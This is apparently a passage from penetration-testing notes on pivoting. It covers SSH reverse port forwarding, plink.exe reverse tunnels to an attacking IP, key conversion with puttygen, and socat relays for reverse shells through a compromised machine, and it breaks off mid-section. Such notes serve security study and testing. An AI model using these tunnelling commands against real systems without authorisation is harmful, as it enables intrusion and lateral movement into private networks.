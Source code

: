 ~~~
ssh -R port username@attacking_ip -i keyfile -fN
~~~

This opens up a proxy allowing to redirect all of traffic through localhost port, into the target network.

8) To close connections

~~~
ps aux | grep ssh

sudo kill PID
~~~

## Plink

plink.exe is a windows version of the PuTTY SSH client. Is being replaced in windows by ssh, however windows machines are less likely to have ssh runing on them.

plink often needs to be transfered to the target then used to create a reverse connection.

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
``` 
The ```cmd.exe /c echo y``` says that a non interactive shell is needed, without this warnings about the target not being connected to this host before appear. Keys generated from ssh-keygen cannot be used in the -i but have to be converted using puttygen 

```
puttygen $key_file -o output_key.ppk
```
The ppk key can be transfered to the windoes machine and used in exactly the same way as a reverse port fowarding tunnel.

plink is located on kali at ```/usr/share/windows-resources/binaries/plink.exe```

**note** plink goes out of date quickly download new ones regularly from ```https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html```

## Socat

Very good for port forwarding but rarely installed by default, so often need static binaries. Socat wcan port forward both linux and windows targets. It also makes a good relay, so if the target doesn't have direct connection back to the our machine then can use socat relay on another compromised machine that does have access back to our machine. Socat will listen out for reverse shell calls for example on the target machine and forwards them to our machine.

Socat joins things together, by creating links between machines, ports, port and files, ports  on a compromised server to our machine or from our attacking machine to the compromised machine inside the network.

### Reverse shell relay with socat.

Using socat to send a reverse shell call back to our machine by a relay (compromised machine). To do this:
